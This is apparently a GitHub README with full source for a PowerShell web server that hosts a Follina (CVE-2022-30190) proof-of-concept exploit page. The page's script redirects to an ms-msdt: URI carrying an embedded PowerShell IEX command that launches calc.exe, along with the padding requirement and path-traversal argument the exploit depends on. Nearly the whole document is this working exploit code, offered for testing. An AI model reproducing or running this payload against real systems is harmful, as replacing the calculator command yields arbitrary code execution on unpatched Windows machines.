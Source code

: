 # Follina Web Server

Simple PowerShell web server to assist in POC Follina testing by popping calc. 
When running, by default URL can be accessed via: http://localhost:8081/payload.html

References:
https://github.com/JMousqueton/PoC-CVE-2022-30190 - Good resource on creating your own POC
https://community.idera.com/database-tools/powershell/powertips/b/tips/posts/creating-powershell-web-server - Base code for powershell web server


```powershell
# enter this URL to reach PowerShell's web server
$url = 'http://localhost:8081/'

# HTML content for some URLs entered by the user
$htmlcontents = @{
############# GET /payload.html (to pop calc)
"GET /payload.html"  =  @'    
<!doctype html>
<html lang="en">
<body>
<script>
//AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA should be repeated >60 times
  window.location.href = "ms-msdt:/id PCWDiagnostic /skip force /param \"IT_RebrowseForFile=cal?c IT_SelectProgram=NotListed IT_BrowseForFile=h$(IEX('calc.exe'))i/../../../../../../../../../../../../../../Windows/System32/mpsigstub.exe \"";
</script>

</body>
</html>
'@;
############# GET / (Root)
'GET /' = @'   
<!doctype html>
<html lang="en">
<body>
Webserver OK
</body>
</html>
'@
}

# -------------------------------------
# start web server
$listener = New-Object System.Net.HttpListener
$listener.Prefixes.Add($url)
$listener.Start()

try
{
  while ($listener.IsListening) {  
    # process received request
    $context = $listener.GetContext()
    $Request = $context.Request
    $Response = $context.Response

    $received = '{0} {1}' -f $Request.httpmethod, $Request.url.localpath
    
    # is there HTML content for this URL?
    $html = $htmlcontents[$received]
    if ($html -eq $null) {
      $Response.statuscode = 404
      $html = 'Oops, the page is not available!'
    } 

    Write-Output "Receiving request for $received"
    # return the HTML to the caller
    if ($Request.httpmethod -ne "HEAD") {        
        $buffer = [Text.Encoding]::UTF8.GetBytes($html)
    } else {
        $buffer = ""
    }
    $Response.ContentLength64 = $buffer.length
    $Response.OutputStream.Write($buffer, 0, $buffer.length)

    
    $Response.Close()
  }
}
finally
{
  $listener.Stop()
}
```


